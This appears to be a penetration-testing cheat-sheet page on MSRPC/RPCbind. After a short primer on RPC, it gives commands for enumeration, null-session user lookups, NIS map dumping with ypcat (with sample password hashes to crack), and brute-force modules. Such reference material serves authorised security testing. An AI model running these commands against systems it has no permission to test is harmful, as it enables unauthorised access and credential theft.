 # 🟨 MSRPC / RPCbind

## :information\_source: <mark style="color:blue;">Introduction</mark>

#### [Remote Procedure Call](https://datatracker.ietf.org/doc/html/rfc5531)

**A**n interprocess communication technique. The Full form of RPC is Remote Procedure Call. It is used for client-server applications. RPC mechanisms are used when a computer program causes a procedure or subroutine to execute in a different address space, which is coded as a normal procedure call without the programmer specifically coding the details for the remote interaction.

This procedure call also manages low-level transport protocol, such as User Datagram Protocol, Transmission Control Protocol/Internet Protocol etc. It is used for carrying the message data between programs.

### Types of RPC

Three types of RPC are:

* Callback RPC
* Broadcast RPC
* Batch-mode RPC

### RPC Architecture

RPC architecture has mainly five components of the program:

1. **Client**
2. **Client Stub**
3. **RPC Runtime**
4. **Server Stub**
5. **Server**

![](<../../.gitbook/assets/image (282) (1) (1) (1) (1) (1) (1) (1).png>)

## :ballot\_box\_with\_check: <mark style="color:blue;">Checklist</mark>

* [ ] Check for Null sessions
* [ ] Quert RPC locator
* [ ] Test [NFS service ](nfs.md)if you found any
* [ ] Try exploiting NIS if you found any
* [ ] Try bypassing port mapper filter

## <mark style="color:red;">Enumeration</mark>

```
nmap -sSUC -p111 [ip]
rpcinfo domain.local
nmap --script bitcoinrpc-info, srpc-enum,rpcap-info,rpc-grind,rpcinfo [ip]
auxiliary/scanner/dcerpc/tcp_dcerpc_auditor
auxiliary/scanner/dcerpc/endpoint_mapper
auxiliary/scanner/dcerpc/hidden 
auxiliary/gather/windows_deployment_services_shares
auxiliary/scanner/dcerpc/windows_deployment_services 
auxiliary/scanner/nessus/nessus_xmlrpc_ping
auxiliary/scanner/dcerpc/management
```

## <mark style="color:red;">Check for Null user sessions</mark>

```
rpcclient -N -U "" [IP address]
rpcclient $> lookupnames [user] → check username
rpcinfo -p [ip]
```

## <mark style="color:red;">automate user enumeration with a list of usernames</mark>

a simple loop to check RPC users in bash

```
for u in $(cat users.txt); do rpcclient -U "" 192.168.13.26 -N --command="lookupnames $u"; done |grep "User: 1"
```

### <mark style="color:orange;">metasploit</mark>

```
use auxiliary/scanner/dcerpc/endpoint_mapper use auxiliary/scanner/dcerpc/hidden use auxiliary/scanner/dcerpc/management use auxiliary/scanner/dcerpc/tcp_dcerpc_auditor
```

## <mark style="color:red;">rpcdump</mark>

rpcdump and ifids Windows utilities query both the RPC locator and specific RPC endpoints to list IFID values.

```
D:\rpctools> rpcdump [-p port] 192.168.189.1
IfId: 5a7b91f8-ff00-11d0-a9b2-00c04fb6e6fc version 1.0
Annotation: Messenger Service
UUID: 00000000-0000-0000-0000-000000000000
Binding: ncadg_ip_udp:192.168.189.1[1028]
```

## <mark style="color:red;">NIS</mark>

If you find the service `ypbind`running:

![](https://github.com/carlospolop/hacktricks/raw/master/.gitbook/assets/image%20\(233\).png)

You can try to exploit it. Anyway, first of all you will **need to guess the NIS "domain name"** of the machine (when NIS is installed it's configured a "domain name") and **without knowing this domain name you cannot do anything**.

Upon obtaining the NIS domain name for the environment (example.org in this case), use the ypwhich command to ping the NIS server and ypcat to obtain sensitive material. You should feed encrypted password hashes into John the Ripper, and once cracked, you can use it to evaluate system access and privileges.

```
root@kali:~# apt-get install nis
root@kali:~# ypwhich -d example.org 192.168.10.1
potatohead.example.org
root@kali:~# ypcat –d example.org –h 192.168.10.1 passwd.byname
tiff:noR7Bk6FdgcZg:218:101::/export/home/tiff:/bin/bash 
katykat:d.K5tGUWCJfQM:2099:102::/export/home/katykat:/bin/bash 
james:i0na7pfgtxi42:332:100::/export/home/james:/bin/tcsh 
florent:nUNzkxYF0Hbmk:199:100::/export/home/florent:/bin/csh 
dave:pzg1026SzQlwc:182:100::/export/home/dave:/bin/bash 
yumi:ZEadZ3ZaW4v9.:1377:160::/export/home/yumi:/bin/bash
```

| **Master file**  | **Map(s)**                  | **Notes**                         |
| ---------------- | --------------------------- | --------------------------------- |
| /etc/hosts       | hosts.byname, hosts.byaddr  | Contains hostnames and IP details |
| /etc/passwd      | passwd.byname, passwd.byuid | NIS user password file            |
| /etc/group       | group.byname, group.bygid   | NIS group file                    |
| /usr/lib/aliases | mail.aliases                | Details mail aliases              |

## <mark style="color:red;">Bypass Filtered Portmapper port</mark>

{% embed url="https://medium.com/@sebnemK/how-to-bypass-filtered-portmapper-port-111-27cee52416bc" %}

## <mark style="color:red;">Login Brute Force</mark>

```
auxiliary/scanner/msf/msf_rpc_login
auxiliary/scanner/nessus/nessus_rest_login 
auxiliary/scanner/nessus/nessus_xmlrpc_login
rpcap-brute.nse
deluge-rpc-brute.nse
rpcap-brute.nse
nessus-xmlrpc-brute.nse
```
